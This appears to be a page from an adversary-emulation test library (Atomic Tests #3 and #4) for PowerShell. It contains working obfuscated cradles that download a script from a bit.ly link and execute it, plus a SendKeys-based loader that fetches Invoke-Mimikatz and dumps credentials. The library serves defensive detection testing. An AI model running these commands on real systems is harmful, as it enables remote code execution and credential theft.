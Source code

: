 ## Atomic Test #3 - Obfuscation Tests
Different obfuscated methods to test
Reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```






<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```
